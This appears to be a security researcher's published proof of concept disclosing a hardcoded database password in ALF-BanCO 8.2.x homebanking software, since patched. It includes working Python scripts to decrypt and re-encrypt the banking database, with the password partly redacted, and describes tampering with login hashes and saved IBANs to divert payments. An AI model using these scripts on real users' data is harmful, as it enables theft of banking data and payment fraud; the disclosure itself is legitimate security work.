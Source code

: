 ## Overview

ALF-BanCo is a homebanking software that manages accounts in various banks, Paypal accounts and many credit cards. The software saves transactions on the PC for as long as the user requires.

## Discovered By

**[Nicolò Tescari](https://www.linkedin.com/in/nicol%C3%B2-tescari-913390131/) ([@ph0nkybit](https://twitter.com/ph0nkybit))** of **[Cybertech](https://www.cybertech.eu/)**

## Proof of Concept (PoC)

The application uses a hardcoded default password to encrypt the local SQLite database containing the user's data. An attacker who gains physical or remote access to the user's machine can exploit this vulnerability to read and modify the data.

The vulnerability was discovered on **ALF-BanCO 8.2.3 (Profi version)**. According to the vendor, it is present up to version **8.2.5**. A patch has been released starting with version **8.3.0**.

At the request of the vendor, the password has been partially obscured.

* * *

After installing the application and configuring our user, the file “**HbDat001.alfdb8**” is created inside the following path: “**C:\\Users\\&lt;username&gt;\\AppData\\Roaming\\ALFBanCo8\\Daten**”.

![db_path](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/db_path.png)

Using ILSpy , the various DLL libraries and application executables inside “**C:\\Program Files (x86)\\ALFBanCo8**” were decompiled.

Looking for the extension "**.alfdb8**" we notice that this is assigned to the “**DB_ENDING**” constant, inside “**AlfOption.dll**”. This suggests that the file is used as a database.

![DB_ENDING](https://github.com/ph0nkybit/proof-of-concepts/blob/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/DB_ENDING.png)

Moreover, the “**IsSqliteDB**” function, inside “**AlfLogin.dll**” returns **true** if the file extension is “**.alfdb8**”, confirming that “**HbDat001.alfdb8”** is a SQLite DB.

![IsSqliteDB](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/IsSqliteDB.png)

As we can see the database cannot be simply opened by an application like DB Browser for SQLite because it is probably encrypted.

![DBBrowser](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/DB_Browser.png)

Within the “**AlfNetDB.dll**” library, we notice the “**OpenSQLite**” function, which takes as arguments two strings, the **db** and the **password**.

![OpenSQLite](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/OpenSQLite.png)

The function is used by the the following constructor, whose variable “**bSQLCrypt**” is set to **true**. This confirms that the database is probably encrypted.

![bSQLCrypt](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/bSQLCrypt.png)

The constructor, is in turn used by the “**SQLCheckPassword**” function, inside “**AlfLogin.dll**”.

As we can see, there’s a **hardcoded password** among the arguments of the constructor.

![SQLCheckPassword](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/SQLCheckPassword.png)

Looking for the password, we can see that it is in fact assigned to the **DB_PWD** constant within the “**Procs”** class of the same DLL.

![DB_PWD](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/DB_PWD.png)

Returning to the “**OpenSQLite**” function, we also note that the “**System.Data.SQLite**” library is being used. This library also provides support for encrypting SQLite databases and as we will see below this type of encryption is actually used on the "**HbDat001.alfdb8**" database.

![System.Data.SQLite](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/System.Data.SQLite.png)

The following Python script can be used to decrypt the database.

Copying “**HbDat001.alfdb8**” to a new directory and running the script, creates “**HbDat001.sqlite**” in the same directory (thanks to https://gist.github.com/zuccaro for the original Python code).

```
def decryptSystemDataSQLite(file, password):

    from Crypto.Hash import SHA 
    from Crypto.Cipher import ARC4
    from struct import unpack
    from tempfile import NamedTemporaryFile
    from shutil import copyfile
    from os import remove
    ret = None
    with open(file,'rb') as f:
        key = SHA.new(password).digest()[:16] 
        header = ARC4.new(key).decrypt(f.read(1024)) 
        if header[0:15] == 'SQLite format 3': 
            declared_ps = unpack('>H',header[16:18])[0] 
            if declared_ps == 1: 
                declared_ps = 65536 
            t = NamedTemporaryFile(delete=False,suffix='.sqlite')
            f.seek(0) 
            while True:
                block = f.read(declared_ps)
                if not block: 
                    break  
                t.write(ARC4.new(key).decrypt(block)) 
            t.close() 
            ret = t.name 
            copyfile(ret, file.split('.')[0] + '.sqlite')
            remove(ret)
    return ret
    
decryptSystemDataSQLite('HbDat001.alfdb8','Wbf*************')
```

![example_usage](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/example_usage.png)

Within the database we can find information about the transfers made.

![database_transfers](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/database_transfers.png)

Accounts data.

![database_accounts](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/database_accounts.png)

The username and password hash used by the user to login into the application.

![database_credentials](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/database_credentials.png)

In addition to being able to read user data, an attacker could also copy the “**HbDat001.alfdb8**” file on his machine, decrypt it, change the password hash on the database with one of his choise, re-encrypt the database, download the application and choose to restore from a backup during the initial setup, to access the victim’s data from the application without knowing the user's password.

The following Python script can be used to re-encrypt the database.

```
def encryptSystemDataSQLite(file, password):

    from Crypto.Hash import SHA 
    from Crypto.Cipher import ARC4
    from struct import unpack
    from tempfile import NamedTemporaryFile
    from shutil import copyfile
    from os import remove
    ret = None
    with open(file,'rb') as f:
        key = SHA.new(password).digest()[:16]
        header = (f.read(1024))
        declared_ps = unpack('>H',header[16:18])[0]
        if declared_ps == 1:
            declared_ps = 65536
        t = NamedTemporaryFile(delete=False,suffix='.alfdb8')
        f.seek(0)
        while True:
            block = f.read(declared_ps)
            if not block:
                break
            t.write(ARC4.new(key).encrypt(block))
        t.close()
        ret = t.name
        copyfile(ret, file.split('.')[0] + '.alfdb8')
        remove(ret)
    return ret
    
encryptSystemDataSQLite('HbDat001.sqlite','Wbf*************')
```
The malicious user could also carry out phishing attacks by modifying IBANs (for example in transactions saved as favorites), re-encrypting the database and replacing it with the user's legitimate one. If when the user send a payment he does not notice that the IBANs of a transaction saved as a favorite have been replaced, he could send the payment to the wrong IBAN.

